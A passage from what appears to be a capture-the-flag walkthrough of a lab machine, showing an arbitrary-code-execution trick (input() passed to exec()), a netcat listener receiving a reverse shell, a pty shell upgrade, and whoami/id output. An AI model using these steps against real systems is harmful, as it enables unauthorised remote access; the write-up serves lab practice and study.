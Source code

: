 We do what is called an "Overlay"
- move our script to "Standard Output"
	- remove the single-quotes
- In Program we add
```python
i = input ("")
exec(i)
```

![Pylington](py_reverse_shell_nc.png)


```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337                
listening on [any] 1337 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.35] 42312
sh-5.1$ 
# Let's add a fully interactive shell
python3 -c "import pty; pty.spawn('/bin/bash')"

# export TERM=xterm
[http@archlinux /]$ export TERM=xterm                                                           
export TERM=xterm
[http@archlinux /]$ whoami
whoami                                                                                          
http                                                                                                       
[http@archlinux /]$ id                                                                                           
id                                                                                                                              
uid=33(http) gid=33(http) groups=33(http)                                                                                       
[http@archlinux /]$                                                                                                                       
```

## Time to get the User Flag 🚩
